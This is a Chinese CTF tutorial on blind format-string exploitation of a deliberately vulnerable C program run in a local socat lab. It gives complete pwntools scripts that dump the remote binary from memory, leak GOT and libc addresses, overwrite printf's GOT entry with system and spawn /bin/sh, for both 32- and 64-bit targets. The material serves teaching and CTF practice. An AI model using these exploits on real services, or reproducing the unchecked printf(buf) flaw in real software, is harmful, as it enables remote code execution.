










# Bilnd-格式化字符串盲打

## 可能需要提前了解的知识

* 格式化字符串原理&利用
* got & plt 调用关系
* 程序的一般启动过程

## 原理

格式化字符串盲打指的是只给出可交互的 ip 地址与端口，不给出对应的 binary 文件来让我们无法通过 IDA 分析，其实这个和 BROP 差不多，不过 BROP 利用的是栈溢出，而这里我们利用的是无限格式化字符串漏洞，把在内存中的程序给`dump`下来。

一般来说，我们按照如下步骤进行

- 确定程序的位数（不同位数有些许差别）
- 确定漏洞位置
- 利用

## 使用条件

* 可以读入 '\x00' 字符的
* 输出函数均是 '\x00' 截断的
* 能无限使用格式化字符串漏洞

## 32 位利用手法

### 实验环境准备

程序源码如下：

```c
#include <stdio.h> 
#include <string.h> 
#include <unistd.h> 
int main(int argc, char *argv[])
{
    setbuf(stdin, 0LL);
    setbuf(stdout, 0LL);
    setbuf(stderr, 0LL);
    int flag;
    char buf[1024];
    FILE* f;

    puts("What's your name?");

    fgets(buf, 1024, stdin);
    printf("Hi, ");
    printf("%s",buf);
    putchar('\n');

    flag = 1;
    while (flag == 1){
        puts("Do you want the flag?");

	memset(buf,'\0',1024);
	read(STDIN_FILENO, buf, 100);
        if (!strcmp(buf, "no\n")){
            printf("I see. Good bye.");
            return 0;
        }else
	{   
	    printf("Your input isn't right:");
	    printf(buf);
	    printf("Please Try again!\n");
	}
	fflush(stdout);
    }
    return 0;
}
```

编译 32 位文件：

```shell
gcc -z execstack -fno-stack-protector -m32 -o leakmemory leakmemory.c
```

用 socat 挂到端口 10001 上部署：

```shell
socat TCP4-LISTEN:10001,fork EXEC:./leakmemory
```

实验环境完成，如果是本地部署的话，等等在 exp 里面写 remote("127.0.0.1",10001) 模拟没有 binary 的远程盲打情况。

### 确定程序的位数

用 %p 看看程序回显输出的长度是多少，以此判断程序的位数。这里看到回显是 4 个字节，判断是 32 位程序。可以再多泄露几个，都是 4 字节（含）以下的，确定为 32 位程序。


### 确定格式化字符串偏移

找到格式化字符串的偏移是多少，在后续操作中会用到。由于没有 binary 不能通过调试分析偏移，就采取输入多个 %p 泄露出偏移。为了容易辨认，字符串开始先填充 4 字节 的填充（64位8字节），然后再填入 %p 。

最后确认偏移为 7 。


### dump 程序

dump 程序应该选哪个格式化字符串：

**%n$s** ：将第 n 个参数的值作为地址，输出这个地址指向的字符串内容

**%n$p** ：将第 n 个参数的值作为内容，以十六进制形式输出

我们是需要 dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7 ，payload 应该为：``%9$s.TMP[addr]`` 。

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \x00 ，所以泄露脚本处理情况有：

1. 针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2. 泄露字符串可能为空，也就是如何处理 \x00 ；

除此之外，还有一个问题是泄露的起始地址在哪里？从各个大佬文章学到两种做法：从 .text 段开始；从程序加载地方开始；两种方法泄露出来程序，在 ida 中呈现有差别。

#### 从程序加载地方开始

先来说省事的，**从程序加载地方开始**。程序加载地方 32 位和 64 位各不相同：



32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

下面是这条例题的泄露脚本，结合注解分析如何处理上面提到的问题：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

**注解**：

* 19-21 行：处理无关泄露的程序流程后，进入格式化字符串漏洞输入状态
* 24 行：32 位系统加载地址
* 9 行："%9$s.TMP" 中的 .TMP 既是填充对齐，也是分隔符，方便后面处理数据
* 14 行：使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
* 15 行：r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
* 30 行：泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3 
* 31-33 行：处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00

运行之后，耐心等待泄漏完成。泄漏出来的程序是不能运行的，但可以在 ida 进过处理可以进行分析、找 plt 、got.plt 等。

将泄漏出来的程序，放入 ida ，启动时选择**以 binary file 加载**，勾选 **Load as code segment**，并**调整偏移为： 0x8048000 **（开始泄露的地址）：



可以通过 shift+F12 查字符串定位到 main 函数，然后直接 F5 反编译：



基本结构已经出来了，盲打没有源代码，就需要根据传入参数去判断哪个 sub_xxx 是哪个函数了。比如输出格式化字符串的 sub_8048490 就是 printf 。

#### 从 .text 段开始

程序启动过程：



从 _start 函数开始就是 .text 段，可以在 ida 中打开一个正常的 binary 观察 text 段开头第一个函数就是 _stat ：（图为 32 位程序）



先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32位：0x8048000；64位：0x400000）。脚本如下：

```python
from pwn import *
import sys

p = remote('127.0.0.1',10001)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```

最后在偏移 1164 和 1188 找到 text 段地址 0x8048510 ，可以对比上图，上图是这条例题的截图：



泄露脚本和前面一样只需要修改一下起始地址：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
#begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin_text','wb') as f:
        f.write(text_seg)
```

将泄露文件放入 ida 分析，启动时选择**以 binary file 加载**，勾选**Load as code segment**，并**调整偏移为： 0x8048510 **（开始泄露地址）：



找到 main 函数在 0x0804860B ，需要将这部分定义为函数才能反编译，右键地址隔壁的名称 loc_804860B ，creat function 。



红色部分就是没有泄露出来的函数，后面跟的就是函数 plt 地址。

两种方法各有不同，结合实际使用。

### 解题流程

着重记录**格式化字符串盲打**，不一步一步分析这道题目漏洞（详细分析：[默小西](https://momomoxiaoxi.com/2017/12/26/Blindfmtstr/)博客）。这道题目思路是：

1. 确定 printf 的 plt 地址
2. 通过泄露 plt 表中的指令内容确定对应的 got.plt 表地址
3. 通过泄露的 got.plt 表地址泄露 printf 函数的地址
4. 通过泄露的 printf 的函数地址确定 libc 基址，从而获得 system 地址
5. 使用格式化字符串的任意写功能将 printf 的 got.plt 表中的地址修改为 system 的地址
6.  send 字符串 “/bin/sh” ，那么在调用 printf(“/bin/sh”) 的时候实际上调用的是 system(“/bin/sh;”) ，从而成功获取shell

#### 确定 printf 的 plt 地址

将泄露出来的程序，放入 ida 中分析获得，函数名后半截就是地址 0x8048490 ：


#### 泄露 got.plt 

和泄露程序 payload 高度相似：

```python
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
```

**注解：**

为什么接收 'right:\xff\x25' ？

right: 是固定回显，\xff\x25 是无用字节码。实际上 0x8048490 的汇编是这样的：

```shell
pwndbg> pdisass 0x8048490 
 ► 0x8048490 <printf@plt>       jmp    dword ptr [0x804a018] <0xf7e4d670>
 
   0x8048496 <printf@plt+6>     push   0x18
   0x804849b <printf@plt+11>    jmp    0x8048450
# 字节码
pwndbg> x /20wx 0x8048490
0x8048490 <printf@plt>:	0xa01825ff	0x18680804	0xe9000000	0xffffffb0
```

0x8048490 指向是一条跳转 got.plt 指令，我们需要其中跳转的目标地址。\xff\x25 就是跳转指令的字节码，我们就要先接收 2 字节垃圾数据，然后再接收 4 字节的 got.plt 地址。

#### 泄露 printf 函数的地址

构造方法同上，但不需要接收 2 字节垃圾数据：

```python
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
```

#### 泄露 libc 基址& system 地址

题目没有给出 libc 。从泄露出来的 printf@got 去 libcdatabase 查询其他函数偏移。

```
printf:0x00049670
system:0x0003ada0
```

#### 任意写修改 printf@got.plt

```python
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
```

### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x8048490

# name
p.recv()
p.sendline('nameaaa')
p.recv()

# leak printf@got.plt
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
log.info("printf_got_plt:"+hex(printf_got_plt))

# leak printf@got
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x00049670
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x0003ada0
log.info("system_addr:"+hex(system_addr))

# overwrite
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
p.sendline('/bin/sh\x00')

p.interactive()
```

## 64 位利用手法

### 实验环境准备

还是使用 32 位的例题源码，编译 64 位程序：

```shell
gcc -z execstack -fno-stack-protector -o leakmemory_64 leakmemory.c
```

用 socat 挂到端口 10001 上部署：

```shell
socat TCP4-LISTEN:10000,fork EXEC:./leakmemory
```

实验环境完成，如果是本地部署的话，等等在 exp 里面写 remote("127.0.0.1",10000) 模拟没有 binary 的远程盲打。

### 确定程序的位数

填充 8 字节，然后再填入 %p  ，回显长度是 8 字节。


### 确定格式化字符串偏移

最后确认偏移为 8 。



### dump 程序

从程序加载地方开始，或者从 text 段开始可以的。这里不再找 text 段起始位置，直接从程序加载地方开始泄露。两个位数程序脚本通用的，改一下参数即可。

**64 位程序加载起始地址是：0x400000**，下面是对比图：


脚本还是那个脚本，改一下参数即可：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
#r = remote('127.0.0.1',10001)
r = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('moxiaoxi')
r.recv()

# leak
begin = 0x400000#0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin_64','wb') as f:
        f.write(text_seg)
```

ida 加载参数如图：



通过字符串定位到 main 函数，这里没有识别为函数，需要手动创建函数。在 0x0400826 右键 creat function ，然后就可以反汇编了。

点进 printf@plt ，里面是跳转到 printf@got.plt 指令，也就是从 ida 知道了：

```
printf_plt = 0x4006B0
printf_got_plt = 0x601030
```

解题思路与 32 位一致，利用脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_64_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x4006B0
printf_got_plt = 0x601030

# name
p.recv()
p.sendline('moxiaoxi')
p.recv()

# leak printf@got
payload = "%9$s.TMP" + p64(printf_got_plt+1)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u64(p.recv(5).ljust(7,'\x00')+'\x00')<<8
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x055800
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x045390
log.info("system_addr:"+hex(system_addr))

one = p64(system_addr)[:2]
two = p64(system_addr>>16)[:2]

payload = "%9104c%12$hn%54293c%13$hn" + 'a'*7
payload += p64(printf_got_plt) + p64(printf_got_plt+2)


p.sendline(payload)
p.recv()
p.sendline('/bin/sh\x00')


p.interactive()
```

## 更多实例

* axb_2019_fmt32

  BUU 上有实验环境，忽略提供的二进制文件，就是盲打题目

* axb_2019_fmt64

  BUU 上有实验环境，忽略提供的二进制文件，就是盲打题目

* SuCTF2018 - lock2 

  主办方提供了 docker 镜像: suctf/2018-pwn-lock2

## 参考

* [ctf-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh)
* [leak me](https://momomoxiaoxi.com/2017/12/26/Blindfmtstr/)
* [pwn-盲打](https://luobuming.github.io/2019/10/17/2019-10-17-pwn-盲打/#64位的利用手法)

